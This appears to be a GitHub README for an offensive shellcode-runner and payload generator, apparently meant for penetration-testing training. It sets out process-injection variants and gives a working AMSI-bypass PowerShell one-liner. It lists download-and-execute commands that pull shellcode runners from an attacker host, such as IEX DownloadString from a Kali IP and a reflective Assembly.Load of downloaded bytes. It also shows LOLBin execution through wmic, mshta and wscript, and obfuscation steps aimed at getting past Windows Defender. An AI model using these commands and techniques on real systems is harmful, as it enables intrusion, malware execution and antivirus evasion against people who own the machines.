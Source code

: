 # Description

## Usage

### Static Variables 
| Variables | Description |
| --- | --- |
| PROCESS_TO_INJECT | Contains the process names that you want to inject into|
| MSFVENOM_PAYLOAD | MSF Payload |
| LHOST | Listener IP |
| LPORT | Listener Port | 

### Payload prefixes
| Name | Description |
| --- | --- |
| _embedded | If the generated payload contains the word **embedded** then the **shellcode** is located inside the generated executable. |
| _marshal | If the generated payload contains the word **marshal** then payload will be injected to executable's memory space. |
| _numa | If the generated payload contains the word **numa** then **VirtualAllocExNuma** was used insetad of **VirtualAllocEx** |
| _FlsAlloc | If the generated payload contains the word **FlsAlloc** then **FlsAlloc** API was used. |

#### Example
When payload is generated with name shellcode_runner_assembly_FlsAlloc_marshal.exe, it means:
- FlsAlloc API was used
- The Shellcode will be injected to executable's address space (Not to a remote process).

### Payload execution

**[+] Triple DES [+]**

The 3DES payloads are located under payloads/3DES/ directory. There are two payloads and need to be executed diferrently. 

#### Method 1
The executable **des_decryptor.exe** is downloading the file from your Web server and executes it reflectively.
```cmd> des_decryptor.exe http://KALI_IP/<SHELLCODE_RUNNER>```

#### Method 2
The executable embedds a shellcode runner. You can run it without providing any commands. 
```cmd> des_decryptor_embedded.exe```

**[+] AMSI Bypass [+]**
There are two methods to bypass AMSI:
- Patching 
- Unhooking

#### Method 1
Patching template is what Offensive-Security teaches in OSEP with some small changes. The execution of 1st method (Patching) is straight forward and uses well-known methodologies.
```$m="System.Management.Automation.Ams";[Ref].Assembly.GetType("$m"+"iUtils").GetField('amsiInitFai'+'led','NonPublic,Static').SetValue($null,$true)```

```
# XOR RAX,RAX 
$buf = [Byte[]] (0x48,0x31,0xC0)  
```

Execute AMSI Shellcode runner
``` powershell -nop -exec bypass -c IEX((New-Object Net.WebClient).DownloadString('http://<IP>/shellcode_runner.html')); ``` 

#### Method 2
To unhook AMSI, I've used the project by jfmaes - AmsiHooker (https://github.com/jfmaes/AmsiHooker) and I permfored some small changes. When AmsiHooker executable will launched, it will download the Shellcode Runner from your web server and it will reflectively execute it.

**Steps**
1. Upload unhook_amsi.exe and MinHook.NET.dll to victim. (Files located under payloads/AMSI/)
2. unhook_amsi.exe http://<KALI>/shellcode_runner.exe

---
 **[+] Executing .XSL, .JS, .HTA [+]**

Under directory payloads/DotNetToJScript/, you find three shellcode ruuners that generated with DotNetToJScript (https://github.com/tyranid/DotNetToJScript). 

Executing .XSL shellcode runner
```
wmic process list /FORMAT:evil.xsl
wmic os get /FORMAT:"https://example.com/evil.xsl"
```

Executing .HTA shellcode runner
```
mshta c:\users\public\shellcode_runner.hta
```

Executing .JS shellcode runner
```
wscript c:\users\public\shellcode_runner.js
```

More execution methods can be found:
- https://lolbas-project.github.io/


**[+] ConfuserX + Net-Obfuscator [+]**

During my tests, I noticed that Windows Defender could detect my payloads genereted by ConfuserEx (https://github.com/yck1509/ConfuserEx). For this reason, I combined ConfuserEx + Net-Obfuscator (https://github.com/BinaryScary/NET-Obfuscate). 

First, payloads that are located under payloads/XOR/ and payloads/Caesar/ directories, feed the ConfuserEx tool and subsequently the new obfuscated binaries are imported to Net-Obfuscator. As a result, the GetType and GetMethod values are obfuscated and  dynamically created.

Example 1 - Execution of 'payloads/Caesar/shellcode_runner_assembly_numa.exe' Reflectively.
```
[+] Creating DLL/EXE file (ConfuserEx + .NET Obfuscator) ...

 [!] Obfuscating CAESAR -> shellcode_runner_assembly_numa.exe
 [*] PS>$data=(New-Object System.Net.WebClient).DownloadData('http://192.168.119.120/shellcode_runner.exe|dll')
 [*] PS>$ass=[System.Reflection.Assembly]::Load($data)
 [*] PS>$ass.GetType("J46IIOTXPW.PZAZUJAD4V").GetMethod("NK6WAROB2W").Invoke($null,$null)
```
